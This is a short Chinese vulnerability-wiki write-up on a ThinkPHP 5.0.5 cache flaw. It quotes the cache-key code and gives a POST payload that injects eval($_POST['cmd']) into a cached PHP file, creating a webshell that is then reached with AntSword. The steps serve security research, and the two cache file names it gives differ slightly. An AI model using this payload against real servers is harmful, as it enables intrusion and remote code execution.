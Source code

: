 Thinkphp 5.0.5 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 5.0.5

三、复现过程
------------

### 漏洞分析

-   漏洞代码与3.2.3差不多，不一样的在缓存目录

```{=html}
<!-- -->
```
-   protected function getCacheKey($name)
            {
                $name = md5($name);
                if ($this->options['cache_subdir']) {
                    // 使用子目录
                    $name = substr($name, 0, 2) . DS . substr($name, 2);
                }
                if ($this->options['prefix']) {
                    $name = $this->options['prefix'] . DS . $name;
                }
                $filename = $this->options['path'] . $name . '.php';
                $dir      = dirname($filename);
                if (!is_dir($dir)) {
                    mkdir($dir, 0755, true);
                }
                return $filename;
            }

```{=html}
<!-- -->
```
-   在index控制器写如下代码：

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.0.5缓存漏洞/media/rId25.png)

-   之后访问
    `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
-   最终在
    `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.0.5缓存漏洞/media/rId26.png)

之后访问蚁剑
`http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.0.5缓存漏洞/media/rId27.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

-   `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
